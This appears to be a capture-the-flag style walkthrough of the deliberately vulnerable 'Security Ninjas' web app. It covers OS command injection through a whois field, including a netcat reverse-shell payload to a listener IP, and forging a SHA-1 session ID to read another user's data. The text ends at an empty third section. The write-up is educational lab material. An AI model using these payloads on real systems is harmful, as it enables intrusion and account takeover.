 This is Vulnerable Mcachine ```Security Ninjas```.

We can test this for common web vulnerabilities

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/daaddc57-1780-4268-b995-afff747dbbaf)

Well, lets dig in


# A1
<hr>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/17788d91-cbd8-4094-a1c4-63fe307635dc)

We were told that this page has an ```OS Command Injection``` flaw

Lets provide a domain name say ```google.com```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84db4b64-e987-4ed0-9fcb-eee65f7835f9)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/89c48ad7-31a2-4491-9d29-a7c7f0085987)

So we got the whois look up results for the domain name ```google.com```

The ```semicolon(;)``` is often used as a delimiter so seperate multiple commands within a single input field. So, we can try to use the ```semicolon(;)``` character to run multiple commands.

For example lets say we want to run the ```id``` command alongside the domain name we provided. So, we'll be having an input like this ```google.com;id```

Lets try to execute this to see what happens

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/730ee60f-38a8-4c9a-85a4-5cf2f525d477)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7a23174f-f258-4b4d-8bad-91b5efffcb21)

Scrolling down,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6cef73f1-ffc0-4d30-858d-a7a1e4217465)

It worked hehe, we were able to successfully execute the linux command

Other delimiter characters like ```|``` and ```||``` also works

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a25768ec-3be8-489a-9333-e3c310810ef2)

Lets get a reverse shell from this

payload:```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f```

Ensure you set up a netcat listener

So, our input would look like this ```google.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.168 1234 >/tmp/f```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c6f015db-919f-44b6-82ef-1c31a1c74737)

Checking my netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/26861a22-4676-4f97-af6f-8a515b1e3055)

I was able to get a reverse shell.

Well, that's all for this challenge since we've successfully exploited the vulnerability there. 

--------------------------

# A2
<hr>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/11a9f185-7ec9-4718-9d2f-201b125f8df8)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0a6fc465-dff6-4ecf-8bde-eb388da15227)

So the exercise here is to get ```user2``` personal information by exploiting the ```Broken Authentication and Session Management``` vulnerability

Lets try to login with the details they provided to us

username:```user1```        password:```145_Bluxome```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fa96800c-803b-4392-aa4e-c3089c40e40d)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c8aca000-2109-4af5-b21d-b80d262b5051)

Cool, we are logged in

Lets try to view personal details, but this time we'll capture the request to burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2dce07c1-a515-4bef-9e4e-f8567e4b1394)

We were able to view the personal information of ```user1```. Well, something eyes catching here is the ```sessionID```.

I ran ```hash-identifier``` on that hash and found

```
┌──(bl4ck4non㉿bl4ck4non)-[~]
└─$ hash-identifier     
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: b3daa77b4c04a9551b8781d03191fe098f325e67

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```
Cool, the hash is ```SHA-1```. Lets crack it to see what it says

Save the hash in a file and use john

command:```john hash  --wordlist=/home/bl4ck4non/Documents/rockyou.txt --format=RAW-sha1```

```
┌──(bl4ck4non㉿bl4ck4non)-[~]
└─$ john hash  --wordlist=/home/bl4ck4non/Documents/rockyou.txt --format=RAW-sha1
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
user1            (?)     
1g 0:00:00:02 DONE (2023-09-29 16:37) 0.4878g/s 1446Kp/s 1446Kc/s 1446KC/s user1 01989..user074
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```
John cracked the hash to be ```user1```. 

So, we can say the ```sessionID``` is ```user1```.

To read ```user2``` personal information, what we can do is generate a ```sha1``` hash for ```user2```.

I used this [website](https://codebeautify.org/sha1-hash-generator) for that

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff21b9eb-2391-4942-8983-6e12d16d59d7)

Now. we'll be replacing the previous ```sessionID``` value with ```a1881c06eec96db9901c7bbfe41c42a3f08e9cb4```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f23c1c76-e085-444c-8214-959c89fc97fd)

cool cool, we are able to read the personal information for ```user2```.

That will be all for this challenge since we have successfully exploited the vulnerability😎

-----------------------------

# A3
<hr>













